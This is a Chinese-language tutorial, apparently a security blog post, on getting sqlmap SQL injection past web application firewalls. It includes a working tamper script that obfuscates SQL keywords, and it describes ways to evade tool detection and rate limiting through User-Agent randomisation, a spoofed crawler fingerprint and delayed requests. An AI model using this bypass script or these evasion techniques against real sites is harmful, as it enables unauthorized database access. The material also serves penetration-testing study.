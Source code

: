 # 原创
：  WEB漏洞-SQL注入-利用SQLMAP工具绕过WAF

# WEB漏洞-SQL注入-利用SQLMAP工具绕过WAF
1. 访问使用阿里云搭建的网站（存在自带的阿里云盾）。1. 可以看到此时网站可以正常访问，可以进行正常注入。1. 使用工具进行注入。1. 可以看到在使用工具注入没多久后便返回了不存在注入点的信息。1. 因为经常会用到SQLMAP这款工具对注入点进行检测，在遇到WAF时，如果还想继续使用此工具，该怎么办呢？1. 此时我们就要用到SQLMAP的名为“tamper”（自带绕过脚本）的插件库了。1. 但是这些默认的脚本必然是不能绕过我们现在常见的一些WAF的（可以绕过一些比赛的拦截规则，如CTF比赛等）。1. 因此就需要我们自己来写脚本，在自己写脚本的过程中可以参考“tamper”下的脚本，可以对里面的脚本进行修改。1. 在tamper文件夹中创建rdog.py。
```
#!/usr/bin/env python

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re

from lib.core.data import kb
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload

    if payload:
        retVal = retVal.replace('UNION', 'uNiOn/*/%0a*a*/')
        retVal = retVal.replace('DATABASE()', 'dataBase/*!(*/)')
        retVal = retVal.replace('DATABASE()', 'dataBase%23a%0a')
        retVal = retVal.replace('USER()', 'usEr/*!(*/)')
        retVal = retVal.replace(' ', '/**/')
        retVal = retVal.replace(" ", '%23a%0a')
        retVal = retVal.replace('OR', '/*!14400Or*/')
        retVal = retVal.replace('AND', '/*!14400aNd*/')

    return retVal
```
1. 利用我们刚刚书写的脚本再次进行注入。1. 可以看到最后注入结果依然不成功。1. 原因并不是脚本写的有问题，而是因为WAF上的一些设置。1. 我们抓取SQLMAP在运行过程中的数据包来进行分析。1. 可以看到数据包内的User-Agent中包含“sqlmap”字样。1. 在防护日志中可以看到拦截的原因是HTTP头部字段包含sqlmap字样。1. 在漏洞防护规则里可以看到包含一种名为“工具拦截”的检测类型，当其发现是使用sqlmap工具时，就会进行拦截。1. 当将User-Agent的值随便改为其它值时，可以看到网站可以正常进行访问。1. 此时可以在SQLMAP的命令里加入“--random-agent”参数，此参数的作用是使User-Agent后面的值按照其字典随机出现。1. 此时再次抓取数据包进行分析，可以看到User-Agent的值已经被成功更改。1. 继续运行SQLMAP，可以看到检测出了注入点。1. 获取表名。1. 可以看到SQLMAP工具成功跑出了数据库的表名。1. 接下来再次提高难度。1. 将安全狗的流量防护也打开。1. 打开此防护后安全狗会对过快访问的ip进行拦截。1. 将SQLMAP的缓存删除掉后，再次进行运行。（前面每次对此地址进行再次注入测试时，都先将缓存进行了删除，如果不进行删除，SQLMAP会无法成功进行注入）1. 再次运行SQLMAP。1. 可以看到SQLMAP运行到这时停止了。1. 此时访问网站，可以发现已经被拒绝访问了。1. 面对此种情况，有以下几种办法：1. 这里展示第三种办法（采用百度的指纹头）1. 在SQLMAP运行了一段时间后再次对网站进行访问，可以发现网站依然可以正常打开。1. 这里展示第二种方法（间隔1秒的延迟注入）。